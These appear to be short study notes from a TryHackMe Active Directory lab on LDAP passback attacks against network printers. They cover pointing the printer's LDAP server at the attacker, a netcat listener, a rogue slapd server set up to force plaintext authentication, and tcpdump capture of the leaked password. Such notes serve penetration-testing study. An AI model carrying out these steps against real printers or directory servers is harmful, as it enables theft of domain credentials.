

# Passback Attacks

## LDAP

- Imagine we have a printer in the network. In the example on tryhackme we have access to the setting page. It has a login page so we can alter the Server IP and put ours instead  
 
- `nc -lvp 389`
- We get a connection back when sending the form. The console shows `supportedCapabilitiesresponse`
- As mentioned in the room:  
"The `supportedCapabilitiesresponse` tells us we have a problem. Essentially, before the printer sends over the credentials, it is trying to negotiate the LDAP authentication method details. It will use this negotiation to select the most secure authentication method that both the printer and the LDAP server support. If the authentication method is too secure, the credentials will not be transmitted in cleartext. With some authentication methods, the credentials will not be transmitted over the network at all! So we can't just use normal Netcat to harvest the credentials. We will need to create a rogue LDAP server and configure it insecurely to ensure the credentials are sent in plaintext."

- `sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd`
- `sudo dpkg-reconfigure -p low slapd` to configure the LDAP server
- We then have to make a file `olcSaslSecProps.ldif`

```
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

- `sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart`

- `sudo tcpdump -SX -i eth0 tcp port 389` (we need to replace eth0 with the appropriate interface)
- And we should get the password, just like in our example from tryhackme:  


 A Pen Tester’s Guide to Printer Hacking 

## Resources

 A Pen Tester’s Guide to Printer Hacking 
 Breaching AD - TryHackMe